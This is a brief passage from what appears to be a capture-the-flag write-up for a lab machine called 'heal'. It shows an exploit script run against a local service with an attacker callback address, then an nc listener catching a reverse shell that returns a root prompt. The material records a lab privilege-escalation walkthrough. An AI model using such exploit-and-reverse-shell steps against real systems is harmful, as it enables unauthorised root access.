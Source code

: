 ```zsh
❯ python3 exploit.py 127.0.0.1 8500 10.10.14.56 9981 0

[+] Request sent successfully, check your listener

```

Shell as root:
```zsh
└─$ rlwrap nc -lnvp 9981
listening on [any] 9981 ...
connect to [10.10.14.56] from (UNKNOWN) [10.10.11.46] 36274
bash: cannot set terminal process group (2231): Inappropriate ioctl for device
bash: no job control in this shell
root@heal:/# id
id
uid=0(root) gid=0(root) groups=0(root)
```

![15.png](Heal/images/15.png)
